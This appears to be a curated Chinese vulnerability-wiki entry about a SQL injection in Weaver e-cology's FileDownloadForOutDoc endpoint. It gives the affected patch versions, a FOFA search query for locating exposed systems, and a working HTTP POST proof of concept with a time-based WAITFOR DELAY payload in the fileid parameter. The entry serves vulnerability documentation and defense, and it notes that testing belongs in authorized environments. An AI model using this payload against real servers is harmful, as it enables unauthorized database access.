

# 泛微e-cology FileDownloadForOutDoc SQL注入

## 条目说明

- 对象与具体问题：泛微e-cology；FileDownloadForOutDoc SQL注入
- 版本、配置及部署条件：部分8/9补丁<10.58.0；SQL Server
- 认证与权限前提：前台样本无cookie
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与FileDownloadForOutDoc另外两篇同body/延时8秒，标题尾.md应删除
- 本篇HTTP头体分隔正常可补旧篇；缺修复链接/响应文本

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

泛微e-cology未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞

### 漏洞影响

```
部分e-cology 8且补丁版本<10.58.0
部分e-cology 9且补丁版本<10.58.0
```

### 网络测绘

```
app="泛微-协同办公OA"
```

### 漏洞复现
主页


POC

```http
POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

fileid=3+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1
```

> 请求长度说明：原资料 Content-Length 为 45；静态长度已移除，应由客户端根据最终请求体的字节数生成。




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
